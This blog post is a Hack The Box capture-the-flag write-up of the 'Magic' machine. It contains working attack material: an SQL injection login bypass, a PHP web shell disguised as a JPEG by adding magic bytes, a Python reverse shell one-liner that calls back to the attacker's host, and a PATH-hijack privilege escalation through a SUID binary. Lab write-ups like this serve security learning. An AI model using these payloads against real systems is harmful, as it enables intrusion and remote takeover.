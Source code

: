 ```yaml
---
layout: post
title:  "Hack The Box - Magic"
date:   2020-08-23 00:38:00 +0800
categories: hackthebox linux sqli php magic path
---
```


![](/assets/images/magic.png){:height="414px" width="615px"}

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

{% highlight bash %}
$ echo "10.10.10.185 magic.htb" >> /etc/hosts
{% endhighlight %}

# Reconnaissance

Using `nmap`, we are able to determine the open ports and running services on the machine.
{% highlight bash %}
$ nmap -sV -sT -sC magic.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-28 11:51 EDT
Nmap scan report for magic.htb (10.10.10.185)
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.77 seconds

{% endhighlight %}

# Enumeration (1)

We got no credentials for the `ssh` service on port `22` so let check out the `http` service on port `80`.

![](/assets/images/magic1.png)

On the bottom left, there's a link to a login page.

`http://magic.htb/login.php`:

![](/assets/images/magic2.png)

I threw in some basic `SQL` injection by putting `' or 1=1;--` in both the username and password and I got in? Nice.

`http://magic.htb/upload.php`:

![](/assets/images/magic3.png)

I submitted nothing and I got this error:

![](/assets/images/magic4.png)

So, the application wants me to support an image. However, based on experience, file upload pages are usually a place where bugs commonly occur so lets see how can we bypass the protections in place.

First, lets first create our web shell. If we manage to upload this, we basically can run any commands on the box!

{% highlight bash %}
$ cat shell.php
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
{% endhighlight %}

Lets think about what kind of checks might be in place. Maybe they are checking the file extension?

{% highlight bash %}
$ mv shell.php shell.php.jpeg
{% endhighlight %}

![](/assets/images/magic5.png)

They probably are but its still not good enough... Well since this box is called "Magic", perhaps they are checking the magic bytes of the file uploaded? The magic bytes of a file is used to identify what type of file it is so that the system can properly interpret it and process accordingly. We can use the `file` command to see what our file is interpreted as.

{% highlight bash %}
$ file shell.php.jpeg
shell.php.jpeg: PHP script, ASCII text
{% endhighlight %}

Well, our file is definitely not recognized as a `JPEG` file. According to this [link](https://www.filesignatures.net/index.php?page=search&search=JFIF&mode=EXT), the magic bytes of a `JPEG` file is `FF D8 FF E0`. Hence, we can just append these bytes to the front of our file.

{% highlight bash %}
$ echo -e "$(python -c "print '\xFF\xD8\xFF\xE0'")$(cat shell.php.jpeg)" > shell.php.jpeg
$ file shell.php.jpeg
shell.php.jpeg: JPEG image data
{% endhighlight %}

Now lets try uploading it.

![](/assets/images/magic6.png)

Now lets figure out where does our file end up at. If you go back to the home page and right-click on the images and click on "View Image", you will see that uploaded images are saved to `http://magic.htb/images/uploads/`. So, lets see if our web shell is there! Note that the uploaded files get cleared every now and then so you might need to reupload your web shell again to see it.

`http://magic.htb/images/uploads/shell.php.jpeg`:

![](/assets/images/magic7.png)

These weird characters that you see are actually the magic bytes you added to our web shell! If we add the `?cmd=whoami` to the end of our URL,

`http://magic.htb/images/uploads/shell.php.jpeg?cmd=whoami`:

![](/assets/images/magic8.png)

We see that we can now arbitrary commands! The next step is probably to establish a more stable reverse shell since our web shell will get deleted every now and then. Since Python 3 was installed on the box (You can run `which python3` to see if it is installed), we can execute a python reverse shell.

Starting our listener...

{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}

And by visiting `http://magic.htb/images/uploads/shell.php.jpeg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`,

We now have a reverse shell.

{% highlight bash %}
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.185] 48482
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/Magic/images/uploads$
{% endhighlight %}

As `www-data`, we can check out what files are there in the root directory of the web service. In `/var/www/Magic`, there were 2 files of interest.

{% highlight bash %}
www-data@ubuntu:/var/www/Magic/images/uploads$ cat /var/www/Magic/db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
...
{% endhighlight %}

{% highlight bash %}
www-data@ubuntu:/var/www/Magic/images/uploads$ cat /var/www/Magic/backup.sql
...
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
...
{% endhighlight %}
`
We got 2 usernames, `theseus` and `admin`, and 2 passwords, `iamkingtheseus` and `Th3s3usW4sK1ng`. Let see what users we have in `/home`.

{% highlight bash %}
$ ls /home
theseus
{% endhighlight %}

# user.txt

I guess we now know what to do. Using the 2 passwords we found, we manage to `su` to `theseus`.

{% highlight bash %}
www-data@ubuntu:/var/www/Magic/images/uploads$ su theseus
Th3s3usW4sK1ng
theseus@ubuntu:/var/www/Magic/images/uploads$ cat /home/theseus/user.txt
a9aaXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# Enumeration (2)

Lets run [`LinEnum.sh`](https://github.com/rebootuser/LinEnum) to see we can find anything to help use escalate our privileges.

{% highlight bash %}
theseus@ubuntu:/var/www/Magic/images/uploads$ wget http://10.10.XX.XX/LinEnum.sh
--2020-08-22 04:59:07--  http://10.10.XX.XX/LinEnum.sh
Connecting to 10.10.XX.XX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46476 (45K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                100%[========================================================>]  45.39K  85.5KB/s    in 0.5s    

2020-08-22 04:59:08 (85.5 KB/s) - ‘LinEnum.sh’ saved [46476/46476]

theseus@ubuntu:/tmp$ chmod +x LinEnum.sh
...
[-] SUID files:
...
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
...
{% endhighlight %}

`sysinfo` is not a binary commonly found in Linux distributions so lets look into it. When executing it, it prints information related to your memory, your disk and your CPU information. But if we look deeper into it,

{% highlight bash %}
theseus@ubuntu:/tmp$ ltrace /bin/sysinfo 2>&1 | grep popen
ltrace /bin/sysinfo 2>&1 | grep popen
popen("lshw -short", "r")                        = 0x5579b300ee80
popen("fdisk -l", "r")                           = 0x5579b300ee80
popen("cat /proc/cpuinfo", "r")                  = 0x5579b300ee80
popen("free -h", "r")                            = 0x5579b300ee80
{% endhighlight %}

It is actually running other commands to retrieve the above said information! Since the path of the binaries executed is not full, we can manipulate our `$PATH` variable so that our own code will be executed instead of the legitimate binary! We got 4 choices but I will choose `free`.

Preparing our payload:

{% highlight bash %}
theseus@ubuntu:/tmp$ echo "/bin/bash" >> /tmp/free
theseus@ubuntu:/tmp$ chmod +x free
{% endhighlight %}

Manipulating our `$PATH` variable so that the OS will check `/tmp` for `free`:

{% highlight bash %}
theseus@ubuntu:/tmp$ PATH=/tmp:$PATH
theseus@ubuntu:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
{% endhighlight %}

And now finally, if we run `/bin/sysinfo`:

{% highlight bash %}
theseus@ubuntu:/tmp$ /bin/sysinfo
====================Hardware Info====================
root@ubuntu:/tmp#
{% endhighlight %}

# root.txt

We are now root! However, the output of commands will not be printed until I exit the current shell.

{% highlight bash %}
root@ubuntu:/tmp# cat /root/root.txt
cat /root/root.txt
root@ubuntu:/tmp# exit
exit
exit
4328XXXXXXXXXXXXXXXXXXXXXXXXXXXX
theseus@ubuntu:/tmp$
{% endhighlight %}

Rooted ! Thank you for reading and look forward for more writeups and articles !
